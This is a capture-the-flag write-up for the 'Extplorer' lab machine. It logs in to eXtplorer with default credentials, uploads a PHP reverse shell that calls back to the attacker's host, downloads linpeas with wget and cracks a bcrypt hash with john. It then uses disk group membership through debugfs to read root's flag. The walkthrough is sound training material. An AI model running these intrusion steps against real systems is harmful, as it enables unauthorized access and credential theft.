



# Extplorer

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Intermediate
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 20
Number of Flags: 2
Lab Description:
This lab demonstrates exploiting a file upload vulnerability in eXtplorer to gain a foothold on the system by 
uploading a PHP web shell. Privilege escalation is performed by abusing the target user’s membership in the 
disk group, allowing unrestricted access to sensitive system files such as /etc/passwd and /etc/shadow. 
Learners will crack the root password hash and gain full root access. This lab highlights file upload 
exploitation, sensitive file abuse, and password cracking for privilege escalation.
Released: 6 Apr 2023
```

Machine link: [https://portal.offsec.com/machine/extplorer-49489/overview/details](https://portal.offsec.com/machine/extplorer-49489/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ export TARGET_IP=192.168.210.16

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ sudo nmap -sC -sV -p- $TARGET_IP               
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-16 11:52 +0200
Nmap scan report for 192.168.210.16
Host is up (0.032s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: WordPress &rsaquo; Setup Configuration File
|_Requested resource was http://192.168.210.16/wp-admin/setup-config.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.60 seconds
```

We have two TCP-services running and available:

- OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 on port 22
- Apache httpd 2.4.41 port 80

We also do an UDP-scan of the top 100 ports but find nothing

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-16 11:55 +0200
Nmap scan report for 192.168.210.16
Host is up (0.032s latency).
All 100 scanned ports on 192.168.210.16 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1219.45 seconds
```

### Check the web site

Accessing the website on port 80 redirects to `http://192.168.210.16/wp-admin/setup-config.php` and shows us a Wordpress setup page.



A scan with `whatweb` gives us the following information

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ whatweb -a3 http://$TARGET_IP     
http://192.168.210.16 [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.210.16], RedirectLocation[http://192.168.210.16/wp-admin/setup-config.php]
http://192.168.210.16/wp-admin/setup-config.php [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.210.16], JQuery[3.6.3], Script[text/javascript], Title[WordPress &rsaquo; Setup Configuration File]
```

Scanning for additional interesting files and directories with `gobuster` we get

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP     
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.210.16
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/wp-content           (Status: 200) [Size: 0]
/wp-login.php         (Status: 200) [Size: 2675]
/index.php            (Status: 200) [Size: 2675]
/wordpress            (Status: 200) [Size: 749]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 200) [Size: 55250]
/readme.html          (Status: 200) [Size: 7402]
/wp-trackback.php     (Status: 200) [Size: 2675]
/wp-admin             (Status: 200) [Size: 2675]
/xmlrpc.php           (Status: 200) [Size: 2675]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/wp-signup.php        (Status: 200) [Size: 2675]
/filemanager          (Status: 200) [Size: 5697]
/server-status        (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Accessing `http://192.168.210.16/filemanager/` show us a login page for `eXtplorer`



We test some standard credentials and are successful with `admin:admin`



### Prepare and get a reverse shell

Next, we prepare a reverse shell from pentestmonkey

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ vi php-reverse-shell.php 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ head php-reverse-shell.php                                   
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.154';  // CHANGE THIS
$port = 80;       // CHANGE THIS
```

and start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ nc -lvnp 80
listening on [any] 80 ...

```

The is a `Upload` functionality on the web page and we upload the reverse shell to the web root.

We can then trigger the shell with `curl`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ curl http://$TARGET_IP/php-reverse-shell.php

```

Back at the netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ nc -lvnp 80               
listening on [any] 80 ...
connect to [192.168.45.154] from (UNKNOWN) [192.168.210.16] 50614
Linux dora 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 10:38:25 up 53 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@dora:/$ ^Z
zsh: suspended  nc -lvnp 80

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ stty raw -echo ; fg ; reset 
[1]  + continued  nc -lvnp 80

www-data@dora:/$ export SHELL=/bin/bash
www-data@dora:/$ export TERM=xterm-256color
www-data@dora:/$ stty rows 200 columns 200
www-data@dora:/$ ^C
www-data@dora:/$ 
```

Now we have a shell that survives `Ctrl + C`!

### Try to get the user flag

Next, we try to get the user flag

```bash
www-data@dora:/$ find /home -type f -name local.txt 2>/dev/null
/home/dora/local.txt
www-data@dora:/$ cat /home/dora/local.txt 
cat: /home/dora/local.txt: Permission denied
www-data@dora:/$ 
```

Nope, no access to the flag yet.

### Enumeration for privesc as www-data

We download `linpeas.sh` to help with the enumeration and make it executable

```bash
www-data@dora:/var/www/html$ wget http://192.168.45.154/linpeas.sh
--2026-04-16 10:53:05--  http://192.168.45.154/linpeas.sh
Connecting to 192.168.45.154:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 913470 (892K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                        100%[=============================================================================================================>] 892.06K  3.92MB/s    in 0.2s    

2026-04-16 10:53:05 (3.92 MB/s) - ‘linpeas.sh’ saved [913470/913470]

www-data@dora:/var/www/html$ chmod +x linpeas.sh 
www-data@dora:/var/www/html$ 
```

Then we start enumerating

```bash
www-data@dora:/var/www/html$ ./linpeas.sh 


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |                                                                                                                                 
    |---------------------------------------------------------------------------------|                                                                                                                                 
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         |                                                                                                                                 
    |         Follow on Twitter         :     @hacktricks_live                        |                                                                                                                                 
    |         Respect on HTB            :     SirBroccoli                             |                                                                                                                                 
    |---------------------------------------------------------------------------------|                                                                                                                                 
    |                                 Thank you!                                      |                                                                                                                                 
    \---------------------------------------------------------------------------------/    
<---snip--->
```

Under `Active ports` we find that port 53 is listening on localhost only

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports                                                                                                                            
══╣ Active Ports (netstat)                                                                                                                                                                                              
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                                                       
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -     
```

Under `Users` we find that the `dora` user is a member of the `disk` group

```bash
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                                                                                                  
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=100(systemd-network) gid=102(systemd-network) groups=102(systemd-network)
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
uid=101(systemd-resolve) gid=103(systemd-resolve) groups=103(systemd-resolve)
uid=102(systemd-timesync) gid=104(systemd-timesync) groups=104(systemd-timesync)
uid=103(messagebus) gid=106(messagebus) groups=106(messagebus)
uid=104(syslog) gid=110(syslog) groups=110(syslog),4(adm),5(tty)
```

Checking for the `dora` user we find a hash in `/var/www/html/filemanager/config/.htusers.php`

```bash
www-data@dora:/var/www/html/filemanager$ grep -iR -A2 -B2 dora *
config/.htusers.php-    $GLOBALS["users"]=array(
config/.htusers.php-    array('admin','21232f297a57a5a743894a0e4a801fc3','/var/www/html','http://localhost','1','','7',1),
config/.htusers.php:    array('dora','$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS','/var/www/html','http://localhost','1','','0',1),
config/.htusers.php-    array('test','$2a$08$AaMjhNqU2hTUg0AxYMAwy.c0o8hl64/sCqwjhLybVehOKIeQP8hke','/var/www/html','http://localhost','1','','7',1),
config/.htusers.php-); 
www-data@dora:/var/www/html/filemanager$ 
```

### Crack the hash

We try to crack it with Joth the ripper

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ vi hashes.txt 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ cat hashes.txt 
$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
doraemon         (?)     
1g 0:00:00:02 DONE (2026-04-16 13:18) 0.4310g/s 651.7p/s 651.7c/s 651.7C/s rachelle..something
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

So we have a possible password for dora: `doraemon`

We can't login as `dora` with SSH

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Extplorer]
└─$ ssh dora@$TARGET_IP                             
The authenticity of host '192.168.210.16 (192.168.210.16)' can't be established.
ED25519 key fingerprint is SHA256:VnMMoSlX8Y0MsU947B2bAEqDX+KmnqpFLFXtLgsOERw.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:182: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.210.16' (ED25519) to the list of known hosts.
dora@192.168.210.16: Permission denied (publickey).
```

but we can switch user with `su`

```bash
www-data@dora:/var/www/html/filemanager$ su dora
Password: 
$ id
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
$ 
```

### Get the user flag

Now we ought to be able to get the user flag

```bash
$ cd /home/dora
$ ls -la
total 24
drwxr-xr-x 2 dora dora 4096 Apr  6  2023 .
drwxr-xr-x 3 root root 4096 Apr  6  2023 ..
-rw-r--r-- 1 dora dora  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 dora dora 3771 Feb 25  2020 .bashrc
-r-------- 1 dora dora   33 Apr 16 09:50 local.txt
-rw-r--r-- 1 dora dora  807 Feb 25  2020 .profile
$ cat local.txt
c<REDACTED>e
$ 
```

### Enumeration for privesc as dora

We do another round with `linpeas` enumeration as dora

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
dora@dora:~$ tty
/dev/pts/1
dora@dora:~$ cp /var/www/html/linpeas.sh ~/linpeas.sh
dora@dora:~$ pwd
/home/dora
dora@dora:~$ ./linpeas.sh 


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |                                                                                                                                 
    |---------------------------------------------------------------------------------|                                                                                                                                 
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         |                                                                                                                                 
    |         Follow on Twitter         :     @hacktricks_live                        |                                                                                                                                 
    |         Respect on HTB            :     SirBroccoli                             |                                                                                                                                 
    |---------------------------------------------------------------------------------|                                                                                                                                 
    |                                 Thank you!                                      |                                                                                                                                 
    \---------------------------------------------------------------------------------/                                                                                                                                 
          LinPEAS-ng by carlospolop  
<---snip--->
```

Again the `disk` group stands out in the output

```bash
                               ╔═══════════════════╗
═══════════════════════════════╣ Users Information ╠═══════════════════════════════                                                                                                                                     
                               ╚═══════════════════╝                                                                                                                                                                    
╔══════════╣ My user
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#users                                                                                                                                 
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)     
```

From [https://hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html#disk-group](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html#disk-group):

```text
Disk Group

This privilege is almost equivalent to root access as you can access all the data inside of the machine.
```

### Get the root flag

To be able to read the root flag, we need to know the rootfs is mounted

```bash
dora@dora:~$ df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.2G  4.1G  56% /
udev                               947M     0  947M   0% /dev
tmpfs                              992M     0  992M   0% /dev/shm
tmpfs                              199M  1.2M  198M   1% /run
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              992M     0  992M   0% /sys/fs/cgroup
/dev/loop0                          62M   62M     0 100% /snap/core20/1611
/dev/loop1                          64M   64M     0 100% /snap/core20/1852
/dev/loop2                          92M   92M     0 100% /snap/lxd/24061
/dev/loop3                          68M   68M     0 100% /snap/lxd/22753
/dev/sda2                          1.7G  209M  1.4G  13% /boot
/dev/loop4                          50M   50M     0 100% /snap/snapd/18596
tmpfs                              199M     0  199M   0% /run/user/1000
dora@dora:~$ 
```

Next, we use `debugsf` to read the flag

```bash
dora@dora:~$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /root
debugfs:  ls -l
debugfs:  cat proof.txt
e<REDACTED>0
debugfs:  quit
dora@dora:~$ 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [debugfs - Linux manual page](https://www.man7.org/linux/man-pages/man8/debugfs.8.html)
- [df - Linux manual page](https://man7.org/linux/man-pages/man1/df.1.html)
- [Disk Group Privilege Escalation - Hacking Articles](https://www.hackingarticles.in/disk-group-privilege-escalation/)
- [Disk Group - HackTricks](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html#disk-group)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [John the Ripper - Homepage](https://www.openwall.com/john/)
- [john - Kali Tools](https://www.kali.org/tools/john/)
- [LinPEAS - GitHub](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [php-reverse-shell.php - pentestmonkey - GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [stty - Linux manual page](https://man7.org/linux/man-pages/man1/stty.1.html)
- [su - Linux manual page](https://man7.org/linux/man-pages/man1/su.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tty - Linux manual page](https://man7.org/linux/man-pages/man1/tty.1.html)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
